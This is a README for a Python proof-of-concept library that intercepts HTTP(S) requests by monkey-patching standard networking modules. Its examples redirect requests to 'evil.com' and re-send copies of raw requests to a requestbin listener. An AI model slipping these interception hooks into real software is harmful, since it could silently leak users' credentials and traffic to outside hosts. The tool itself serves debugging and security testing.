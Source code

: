 # py-request-interceptor
[![Python3 Version](https://img.shields.io/badge/python-3.6%20%28%3F%29%20%7C%203.7%2B-blue)](https://www.python.org/downloads/)
[![License](https://img.shields.io/badge/license-GPL--3.0-blue)](/LICENSE)
[![Code Style](https://img.shields.io/badge/code%20style-black-000000)](https://github.com/psf/black)  
## Description
:rat: Intercepts your HTTP(S) requests from Python standard libraries. Allows you to catch API calls and HTTP(S) requests from different `requests`/`urllib`/`http`-based libraries (and many others based on the original `http.client`/`socket` stack).

## Warning
:construction: **Note:** This is just a WIP/PoC project w/o rocket science in it - just a bunch of dirty monkey patches. So, enjoy it "as is" if you are interested in it. Not properly tested lol.

## Proof of Concept
```python3
#!/usr/bin/env python3

from src.interceptor import Interceptor
from requests import get

# Initialize 'Interceptor' here, nothing special
intercept = Interceptor()

@intercept.sniff(listener="http://YOUR_LISTENER_ENDPOINT")
@intercept.dump()
@intercept.data(data="GET / HTTP/1.1\r\n ...modified request goes here")
def example_sniff_connect() -> CaseInsensitiveDict:
    """
    Patch request data, dump modified request to the logs, and re-send copy of the request
    to another endpoint
    :return: response headers
    """
    return get(url="http://ORIGINAL_HOST").headers


if __name__ == "__main__":
    example_sniff_connect()
```

## Handlers
### Redirect to another target
Definition:  
```python3
def target(self, host: str, port: int) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.target(host="http://evil.com", port=80)
def my_func():
    ...
```
### Replace raw requests data
Definition:  
```python3
def data(self, data: Union[str, bytes]) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.data(data="GET / HTTP/1.1\r\n...")
def my_func():
    ...
```
### Log raw requests to the console 
Definition:  
```python3
def dump(self) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.dump()
def my_func():
    ...
```
### Re-send copy of the original raw requests to another endpoint
Definition:  
```python3
def sniff(self, listener: str) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.sniff(listener="http://requestbin.net/r/YOUR_REQUESTBIN_ID")
def my_func():
    ...
```
